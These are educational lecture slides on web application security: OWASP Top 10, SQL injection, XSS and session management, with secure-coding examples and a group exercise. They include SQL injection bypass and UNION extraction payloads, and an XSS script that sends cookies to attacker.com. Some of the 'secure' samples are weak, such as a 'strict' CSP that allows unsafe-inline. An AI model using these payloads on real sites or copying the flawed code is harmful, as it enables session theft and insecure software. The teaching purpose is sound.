

# Web Application Security
## Unit III: Network & System Security
### Lecture 16: Securing Online Applications

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Semester V | Diploma ICT | Author: Milav Dabgar
</div>

---
layout: default
---

# Web Application Threat Landscape

<div class="grid grid-cols-2 gap-6">

<div>

## 🌐 Why Web Applications are Targeted

**Web applications** are prime targets due to their accessibility, complexity, and valuable data.

### 🎯 Attack Surface Characteristics
- **Internet-facing** - Accessible 24/7 globally
- **Complex architecture** - Multiple technologies/layers
- **Valuable data** - Personal, financial, business information
- **Business critical** - High impact of disruption
- **Frequent changes** - New vulnerabilities introduced

### 📊 Web Attack Statistics (2024)
- **94%** of applications have high-severity vulnerabilities
- **Web attacks** increased by 250% in 2023
- **Average cost** of web app breach: $4.45 million
- **43%** of breaches involve web applications
- **OWASP Top 10** covers 90% of web vulnerabilities

</div>

<div>

## 🚨 Common Attack Vectors

### 📋 Primary Attack Methods
```yaml
Injection Attacks:
  - SQL Injection (SQLi)
  - Cross-Site Scripting (XSS)
  - Command Injection
  - LDAP Injection
  - XML Injection
  
Authentication Attacks:
  - Brute force attacks
  - Credential stuffing
  - Session hijacking
  - Password attacks
  
Business Logic Attacks:
  - Price manipulation
  - Workflow bypass
  - Race conditions
  - Authorization flaws
  
Infrastructure Attacks:
  - Server misconfigurations
  - Unpatched vulnerabilities
  - Insecure protocols
  - Directory traversal
```

### 🔄 Attack Lifecycle


</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: default
---

# OWASP Top 10 Web Application Security Risks

<div class="grid grid-cols-2 gap-6">

<div>

## 🔝 OWASP Top 10 (2021)

### A01: Broken Access Control
**Most common vulnerability** - 94% of applications tested had some form of broken access control.

#### 🚨 Common Weaknesses
- Missing access control checks
- Bypassing access control via URL modification
- Elevation of privilege attacks
- CORS misconfigurations
- Force browsing to authenticated pages

#### 💻 Example: Insecure Direct Object Reference
```javascript
// Vulnerable code
app.get('/user/profile/:userId', (req, res) => {
  const userId = req.params.userId;
  // No authorization check!
  const user = getUserData(userId);
  res.json(user);
});

// Secure version
app.get('/user/profile/:userId', authenticateUser, (req, res) => {
  const requestedUserId = req.params.userId;
  const currentUserId = req.user.id;
  
  // Check if user can access this profile
  if (requestedUserId !== currentUserId && !req.user.isAdmin) {
    return res.status(403).json({error: 'Unauthorized'});
  }
  
  const user = getUserData(requestedUserId);
  res.json(user);
});
```

</div>

<div>

## 🔐 A02: Cryptographic Failures

### 📊 Common Cryptographic Issues
```yaml
Data in Transit:
  - Missing HTTPS/TLS
  - Weak TLS configurations
  - Certificate issues
  - Mixed content problems
  
Data at Rest:
  - Unencrypted sensitive data
  - Weak encryption algorithms
  - Poor key management
  - Default encryption keys
  
Implementation Flaws:
  - Using deprecated algorithms (MD5, SHA1)
  - Hardcoded cryptographic keys
  - Weak random number generation
  - Improper certificate validation
```

### 🔧 Secure Implementation
```python
# Secure password hashing with bcrypt
import bcrypt

def hash_password(password):
    # Generate salt and hash password
    salt = bcrypt.gensalt(rounds=12)
    hashed = bcrypt.hashpw(password.encode('utf-8'), salt)
    return hashed

def verify_password(password, hashed):
    return bcrypt.checkpw(password.encode('utf-8'), hashed)

# Secure data encryption with AES
from cryptography.fernet import Fernet

def encrypt_sensitive_data(data):
    # Generate key (store securely!)
    key = Fernet.generate_key()
    cipher_suite = Fernet(key)
    
    # Encrypt data
    encrypted_data = cipher_suite.encrypt(data.encode())
    return encrypted_data, key

def decrypt_sensitive_data(encrypted_data, key):
    cipher_suite = Fernet(key)
    decrypted_data = cipher_suite.decrypt(encrypted_data)
    return decrypted_data.decode()
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: default
---

# SQL Injection Attacks and Prevention

<div class="grid grid-cols-2 gap-6">

<div>

## 💉 A03: Injection Vulnerabilities

### 🎯 SQL Injection Overview
**SQL Injection** occurs when untrusted data is sent to an interpreter as part of a command or query.

### 📊 Types of SQL Injection
```yaml
Classic SQL Injection:
  - Union-based attacks
  - Error-based attacks
  - Boolean-based blind
  - Time-based blind
  
Second-Order Injection:
  - Stored malicious input
  - Executed later in different context
  - Harder to detect and prevent
  
Advanced Techniques:
  - Filter bypass methods
  - WAF evasion techniques
  - Database-specific attacks
  - Out-of-band attacks
```

### 🔧 SQL Injection Examples
```sql
-- Original query
SELECT * FROM users WHERE username = '$username' AND password = '$password'

-- Malicious input: username = admin' --
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything'

-- Result: Password check bypassed!

-- Data extraction attack: username = ' UNION SELECT table_name,null FROM information_schema.tables --
SELECT * FROM users WHERE username = '' UNION SELECT table_name,null FROM information_schema.tables --' AND password = 'x'
```

</div>

<div>

## 🛡️ SQL Injection Prevention

### ✅ Secure Coding Practices

#### 1. Parameterized Queries (Prepared Statements)
```python
# Vulnerable code (DON'T DO THIS)
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)

# Secure code with parameterized queries
query = "SELECT * FROM users WHERE username = %s AND password = %s"
cursor.execute(query, (username, hashed_password))
```

#### 2. Stored Procedures (when properly used)
```sql
-- Secure stored procedure
CREATE PROCEDURE GetUserByCredentials
    @Username NVARCHAR(50),
    @Password NVARCHAR(100)
AS
BEGIN
    SELECT * FROM Users 
    WHERE Username = @Username AND Password = @Password
END
```

#### 3. Input Validation and Sanitization
```python
import re

def validate_input(user_input, input_type):
    if input_type == 'username':
        # Allow only alphanumeric and underscore
        if re.match(r'^[a-zA-Z0-9_]{3,20}$', user_input):
            return user_input
        else:
            raise ValueError("Invalid username format")
    
    elif input_type == 'email':
        if re.match(r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', user_input):
            return user_input
        else:
            raise ValueError("Invalid email format")
    
    # Add more validation rules as needed
    return None
```

#### 4. Least Privilege Database Access
```sql
-- Create limited database user
CREATE USER 'webapp_user'@'localhost' IDENTIFIED BY 'strong_password';

-- Grant only necessary permissions
GRANT SELECT, INSERT, UPDATE ON webapp.users TO 'webapp_user'@'localhost';
GRANT SELECT ON webapp.products TO 'webapp_user'@'localhost';

-- No admin privileges!
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: default
---

# Cross-Site Scripting (XSS) Attacks

<div class="grid grid-cols-2 gap-6">

<div>

## 🎭 Understanding XSS Attacks

### 📊 Types of XSS
```yaml
Stored XSS (Persistent):
  - Script stored on server
  - Executed for every user
  - Most dangerous type
  - Example: Malicious comments
  
Reflected XSS (Non-Persistent):
  - Script in request parameters
  - Reflected in response
  - Requires social engineering
  - Example: Search results
  
DOM-based XSS:
  - Client-side script vulnerability
  - JavaScript manipulates DOM
  - No server involvement
  - Example: URL fragment processing
```

### 💻 XSS Attack Examples
```html
<!-- Stored XSS in comment system -->
<script>
  // Steal session cookies
  document.location='http://attacker.com/steal.php?cookie=' + document.cookie;
</script>

<!-- Reflected XSS in search -->
<p>Search results for: <script>alert('XSS')</script></p>

<!-- DOM-based XSS -->
<script>
  var search = location.search.substring(1);
  document.write("You searched for: " + search);
</script>
<!-- URL: page.html?q=<script>alert('XSS')</script> -->
```

### 🔍 XSS Impact
- **Session hijacking**
- **Credential theft**
- **Defacement**
- **Malware distribution**
- **Phishing attacks**

</div>

<div>

## 🛡️ XSS Prevention Strategies

### 1. Output Encoding/Escaping
```javascript
// HTML entity encoding
function htmlEncode(str) {
  return str.replace(/[&<>"']/g, function(match) {
    const entities = {
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      '"': '&quot;',
      "'": '&#x27;'
    };
    return entities[match];
  });
}

// Context-aware encoding
function encodeForContext(data, context) {
  switch(context) {
    case 'html':
      return htmlEncode(data);
    case 'javascript':
      return data.replace(/[\\'"]/g, '\\$&');
    case 'css':
      return data.replace(/[^a-zA-Z0-9-]/g, '\\$&');
    case 'url':
      return encodeURIComponent(data);
    default:
      return htmlEncode(data);
  }
}
```

### 2. Content Security Policy (CSP)
```html
<!-- Strict CSP header -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; 
               script-src 'self' 'unsafe-inline'; 
               style-src 'self' 'unsafe-inline'; 
               img-src 'self' data:; 
               connect-src 'self';">
```

### 3. Input Validation
```python
import html
from urllib.parse import quote

def secure_input_handling(user_input, context='html'):
    # Validate input length
    if len(user_input) > 1000:
        raise ValueError("Input too long")
    
    # Context-specific sanitization
    if context == 'html':
        return html.escape(user_input)
    elif context == 'url':
        return quote(user_input)
    elif context == 'javascript':
        # Remove potentially dangerous characters
        safe_chars = re.sub(r'[<>"\';]', '', user_input)
        return safe_chars
    
    return html.escape(user_input)  # Default to HTML escaping
```

### 4. Secure JavaScript Practices
```javascript
// Safe DOM manipulation
const safeDiv = document.createElement('div');
safeDiv.textContent = userInput;  // Safe - no HTML parsing
document.body.appendChild(safeDiv);

// Avoid innerHTML with user data
// element.innerHTML = userInput;  // DANGEROUS!

// Use textContent or innerText instead
element.textContent = userInput;  // SAFE
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: default
---

# Authentication and Session Management

<div class="grid grid-cols-2 gap-6">

<div>

## 🔐 A07: Identification and Authentication Failures

### 🚨 Common Authentication Issues
```yaml
Weak Password Policies:
  - No complexity requirements
  - No length requirements  
  - Common password acceptance
  - No password rotation
  
Session Management Flaws:
  - Predictable session IDs
  - Session fixation vulnerabilities
  - No session timeout
  - Insecure session storage
  
Multi-Factor Authentication:
  - Not implemented
  - Bypassable implementation
  - Weak second factors
  - Social engineering susceptible
```

### 💻 Secure Authentication Implementation
```python
import secrets
import hashlib
import time
from datetime import datetime, timedelta

class SecureAuthenticator:
    def __init__(self):
        self.max_login_attempts = 5
        self.lockout_duration = 300  # 5 minutes
        self.session_timeout = 3600   # 1 hour
        
    def generate_secure_session_id(self):
        # Use cryptographically secure random generator
        return secrets.token_urlsafe(32)
    
    def hash_password(self, password, salt=None):
        if salt is None:
            salt = secrets.token_hex(16)
        
        # Use PBKDF2 with high iteration count
        key = hashlib.pbkdf2_hmac('sha256', 
                                password.encode('utf-8'), 
                                salt.encode('utf-8'), 
                                100000)  # 100k iterations
        
        return salt + key.hex()
    
    def verify_password(self, password, stored_hash):
        salt = stored_hash[:32]  # First 32 chars are salt
        stored_key = stored_hash[32:]
        
        # Hash provided password with same salt
        key = hashlib.pbkdf2_hmac('sha256',
                                password.encode('utf-8'),
                                salt.encode('utf-8'),
                                100000)
        
        return key.hex() == stored_key
    
    def create_session(self, user_id):
        session_id = self.generate_secure_session_id()
        expires_at = datetime.utcnow() + timedelta(seconds=self.session_timeout)
        
        # Store session in secure storage (Redis, database, etc.)
        session_data = {
            'user_id': user_id,
            'created_at': datetime.utcnow(),
            'expires_at': expires_at,
            'ip_address': self.get_client_ip(),
            'user_agent': self.get_user_agent()
        }
        
        self.store_session(session_id, session_data)
        return session_id
```

</div>

<div>

## 🔄 Session Security Best Practices

### 🛡️ Secure Session Configuration
```python
# Flask session configuration
app.config.update(
    SECRET_KEY=os.urandom(24),  # Random secret key
    SESSION_COOKIE_SECURE=True,  # HTTPS only
    SESSION_COOKIE_HTTPONLY=True,  # No JavaScript access
    SESSION_COOKIE_SAMESITE='Lax',  # CSRF protection
    PERMANENT_SESSION_LIFETIME=timedelta(hours=1)  # 1 hour timeout
)

# Django session settings
SESSION_COOKIE_AGE = 3600  # 1 hour
SESSION_COOKIE_SECURE = True  # HTTPS only
SESSION_COOKIE_HTTPONLY = True  # No JavaScript access
SESSION_COOKIE_SAMESITE = 'Lax'  # CSRF protection
SESSION_EXPIRE_AT_BROWSER_CLOSE = True
```

### 🔒 Multi-Factor Authentication
```python
import pyotp
import qrcode

class MFAManager:
    def __init__(self):
        self.app_name = "SecureApp"
        
    def generate_secret_key(self, user_email):
        # Generate random secret for TOTP
        secret = pyotp.random_base32()
        
        # Create provisioning URI
        totp_uri = pyotp.totp.TOTP(secret).provisioning_uri(
            name=user_email,
            issuer_name=self.app_name
        )
        
        # Generate QR code
        qr = qrcode.QRCode(version=1, box_size=10, border=5)
        qr.add_data(totp_uri)
        qr.make(fit=True)
        
        return secret, qr
    
    def verify_totp_token(self, secret, token):
        totp = pyotp.TOTP(secret)
        # Allow 30-second window for clock drift
        return totp.verify(token, valid_window=1)
    
    def generate_backup_codes(self, count=10):
        # Generate single-use backup codes
        codes = []
        for _ in range(count):
            code = secrets.token_hex(4).upper()
            codes.append(code)
        return codes
```

### 📱 Login Security Features
```javascript
// Client-side login security
class LoginSecurity {
    constructor() {
        this.maxAttempts = 5;
        this.lockoutTime = 300000; // 5 minutes
        this.attempts = this.getStoredAttempts();
    }
    
    checkLoginAttempts() {
        if (this.attempts >= this.maxAttempts) {
            const lockoutEnd = localStorage.getItem('lockoutEnd');
            if (lockoutEnd && new Date() < new Date(lockoutEnd)) {
                throw new Error('Account temporarily locked. Try again later.');
            } else {
                // Reset attempts after lockout period
                this.resetAttempts();
            }
        }
    }
    
    recordFailedAttempt() {
        this.attempts++;
        localStorage.setItem('loginAttempts', this.attempts.toString());
        
        if (this.attempts >= this.maxAttempts) {
            const lockoutEnd = new Date(Date.now() + this.lockoutTime);
            localStorage.setItem('lockoutEnd', lockoutEnd.toISOString());
        }
    }
    
    resetAttempts() {
        this.attempts = 0;
        localStorage.removeItem('loginAttempts');
        localStorage.removeItem('lockoutEnd');
    }
}
```

</div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: default
---

# Practical Exercise: Web Application Security Assessment

<div class="exercise-container">

## 🎯 Group Activity (25 minutes)

### Scenario: E-commerce Platform Security Review

Your team has been hired to perform a security assessment of an e-commerce platform with the following characteristics:

**Application Details:**
- **Online shopping** platform with 50,000+ users
- **Product catalog**, shopping cart, and payment processing
- **User accounts** with personal and payment information
- **Admin dashboard** for inventory and order management  
- **API endpoints** for mobile application
- **Third-party integrations** (payment gateways, shipping providers)

**Technology Stack:**
- **Frontend:** React.js with Redux
- **Backend:** Node.js with Express framework
- **Database:** MySQL with user and product data
- **Authentication:** JWT tokens with session management
- **Payment Processing:** Integration with Stripe/PayPal
- **Hosting:** AWS cloud infrastructure

### Task: Comprehensive Security Assessment

**Phase 1: Threat Modeling (8 minutes)**

**Asset Identification:**
1. What are the critical assets that need protection?
2. What data is most valuable to attackers?
3. Which components have the highest risk exposure?

**Attack Surface Analysis:**
1. What are the potential entry points for attackers?
2. Which OWASP Top 10 vulnerabilities are most likely?
3. What are the high-risk attack scenarios?

**Phase 2: Vulnerability Assessment Planning (10 minutes)**

**Technical Testing Strategy:**
1. How would you test for SQL injection vulnerabilities?
2. What XSS testing would you perform?
3. How would you assess authentication and session management?
4. What business logic flaws would you look for?

**Security Control Analysis:**
1. What input validation should be implemented?
2. How should sensitive data be protected?
3. What security headers should be configured?
4. How should error handling be implemented?

**Phase 3: Remediation Recommendations (7 minutes)**

**Priority-Based Fixes:**
1. What are the critical vulnerabilities to fix first?
2. What security controls should be implemented immediately?
3. How would you improve the overall security architecture?

**Long-term Security Strategy:**
1. What ongoing security measures are needed?
2. How would you implement security in the development lifecycle?
3. What monitoring and detection capabilities should be added?

**Deliverables:**
- Vulnerability assessment plan
- Security testing checklist  
- Risk prioritization matrix
- Remediation roadmap with timelines
- Security architecture recommendations

</div>

<style>
.exercise-container {
  @apply bg-purple-50 border-2 border-purple-300 rounded-lg p-6;
}
</style>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Questions & Discussion

## 🤔 Discussion Points:
- Which web application vulnerability poses the greatest risk?
- How do you balance security with user experience in web apps?
- What's the most effective approach for preventing injection attacks?

### 💡 Exercise Review
Share your e-commerce security assessment plans and discuss different approaches

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>

---
layout: center
class: text-center
---

# Thank You!

## Next Lecture: SSL/TLS Protocols
### Secure Communication Foundations

<div class="pt-8 text-gray-500">
  <p>Cyber Security (4353204) - Lecture 16 Complete</p>
  <p>Securing the web: Protecting applications and users online! 🌐🔒</p>
</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit III | Lecture 16 | Author: Milav Dabgar
</div>